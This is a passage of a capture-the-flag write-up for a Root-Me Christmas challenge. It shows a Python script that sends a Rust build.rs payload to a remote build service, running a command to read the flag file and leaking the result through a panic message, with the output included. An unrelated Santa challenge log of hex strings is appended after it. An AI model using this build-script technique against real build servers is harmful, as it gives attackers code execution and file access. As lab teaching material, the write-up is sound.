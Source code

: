 It gave me the flag, and I was happy, but later, the author of the
challenge said that the intended goal was rather to reach RCE on the
remote server. Thus, I tried to do so.

### Intended solution

Rust provides some specific functionality when building packages:
*build scripts*.

https://doc.rust-lang.org/cargo/reference/build-scripts.html

If one add a `build.rs` file at the root of the package, it will be
executed when the package is built.

As a result, we can run arbitrary Rust code on the server when it
builds the package.

To get RCE, I have then put a basic command execution payload in
`build.rs` and replaced `src/main.rs` with a dummy hello world
program.

The main difficulty was to retrieve the output of the executed
commands. I could have used curl to a beeceptor endpoint. Here,
instead, error messages were again my best friends. I used the
`panic!()` instruction to print the output of the command in an error
message:

```python
import requests

data = { 'build.rs' : 'use std::process::{Command, Stdio}; fn main() { let output = Command::new("cat").args(&["/flag/randomflaglolilolbigbisous.txt"]).stdout(Stdio::piped()).output().unwrap(); panic!("{}", String::from_utf8(output.stdout).unwrap()); }', 'src/main.rs' : 'fn main() { println!("Hello, world!"); }' }

r = requests.post("https://day4.challenges.xmas.root-me.org/remote-build", json=data, verify=False)

print(r.content.decode())
```

```
$ python solve_intended.py
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1100: InsecureRequestWarning: Unverified HTTPS request is being made to host 'day4.challenges.xmas.root-me.org'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
Build failed:    Compiling temp_build v0.1.0 (/tmp/.tmpempEi4)
error: failed to run custom build command for `temp_build v0.1.0 (/tmp/.tmpempEi4)`

Caused by:
  process didn't exit successfully: `/tmp/.tmpempEi4/target/release/build/temp_build-e0782682262e3533/build-script-build` (exit status: 101)
  --- stderr
  thread 'main' panicked at build.rs:1:172:
  OffenSkillSaysHi2024RustAbuse

  note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
```


[SANTA]: Hello player, welcome! Here is your gift for this christmas: d25403e95412f681c87af504174705231be5aa0a8ae8c7caea6dc25657ab1ca6ea58a73f39249dc7827e1d99363d3a84b593cf266f286281eb4e90f6da791aaa
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
[SANTA]: Enter the message you wish to wrap:
[SANTA]: Here is your wrapped present: cd7c0adf1d7ce1b6ed41b220257f39561adb8337ad9db4af907590180efa29e1
[SANTA]: Merry Christmas!
[SANTA]: Hello player, welcome! Here is your gift for this christmas: 0ed3526241d4570c998d6d1e170c9a2b70c88e3995ac7284fd1319d2fa1063e28149b4914ae20cb0c835935c2fadc6fc16b78829215aac23706c915450c432e6
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
[SANTA]: Enter the message you wish to wrap:
[SANTA]: Here is your wrapped present: 3dff484710fb6232afbe382f2934b41f43f6a811b29940bacb432cfbc42631c2ab7796a272d3399eee06b36d06959db50ad9e6474f34c24d1e02ff3a3eaa5c8853e26d86f052a8374fbe4aa6de30fb0d4c78a56b0f623289ae11930ba3e3a71c
[SANTA]: Merry Christmas!